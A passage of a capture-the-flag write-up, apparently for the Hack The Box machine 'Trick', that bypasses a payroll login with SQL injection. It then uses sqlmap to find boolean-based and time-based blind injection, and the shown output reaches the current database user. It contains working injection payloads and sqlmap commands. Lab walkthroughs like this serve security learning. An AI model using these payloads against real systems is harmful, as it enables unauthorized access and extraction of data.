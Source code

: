 We found preprod-payroll.trick.htb virtual host!

After visiting it, we see login page.
We can login with:

```
username: admin' or '1' = '1'# 
password: admin
```

Which is textbook sql injection auth bypass.
This isn't everything that can be done using this vulnerability.
We can see in response, that when instead of '1' = '1'
we insert something false, it returns 3, and if it's true it returns 1.

This is known as boolean injection and it allows us to extract
information from database via brute-forcing. The tool for that is
sqlmap. We copy a request we used to bypass auth from burp and use
it with sqlmap.

Injection type detection with sqlmap:

```sh
> sqlmap -r login.req --batch

sqlmap identified the following injection point(s) with a total of 210 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1451 FROM (SELECT(SLEEP(5)))Idvf) AND 'HRsz'='HRsz&password=admin
---
```

SQLmap identified time-based blind injection, but since we know that boolean-based
one exists (and time-based is more time-consuming to exploit) we will specify
the techique we want to use:

```sh
> sqlmap -r login.req --batch --technique B --level 5

sqlmap identified the following injection point(s) with a total of 138 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 6183=(SELECT (CASE WHEN (6183=6183) THEN 6183 ELSE
    (SELECT 5981 UNION SELECT 4511) END))-- -&password=admin
---
```

And sure enough, it found the vulnerability we knew about. If it doesn't try increasing
level until it does.

Now we can use sqlmap to gather various information from db.
Current user:
```sh
> sqlmap -r login.req --batch --threads 10 --current-user

remo@localhost
```
